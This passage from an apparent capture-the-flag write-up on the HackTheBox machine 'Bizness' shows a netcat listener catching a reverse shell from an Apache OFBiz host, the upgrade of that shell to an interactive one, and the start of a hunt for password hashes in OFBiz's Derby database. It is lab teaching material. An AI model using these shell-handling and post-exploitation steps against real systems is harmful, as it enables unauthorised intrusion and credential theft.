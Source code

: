     
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.252 43366
    bash: cannot set terminal process group (552): Inappropriate ioctl for device
    bash: no job control in this shell
    ofbiz@bizness:/opt/ofbiz$
    

I’ll upgrade my shell using [the standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    ofbiz@bizness:/opt/ofbiz$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    ofbiz@bizness:/opt/ofbiz$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    ofbiz@bizness:/opt/ofbiz$
    

And grab `user.txt` from `/home/ofbiz`:

    
    
    ofbiz@bizness:~$ cat user.txt
    f4e81ade************************
    

## Shell as root

### Enumeration

#### Derby Background

It’s very standard to look for stored passwords and password hashes the
database / filesystem of a just-exploited web application. That proves tricky
on OfBiz because there’s so much going on in the `/opt/ofbiz` directory with
almost 18 thousand files:

    
    
    ofbiz@bizness:/opt/ofbiz$ find . -type f | wc -l
    17731
    

The OFBiz `README.md`
[says](https://github.com/apache/ofbiz/blob/trunk/README.md):

> _Note_ : the default configuration uses an embedded Java database (Apache
> Derby) and embedded application server components such as Apache Tomcat®,
> Apache Geronimo (transaction manager), etc.
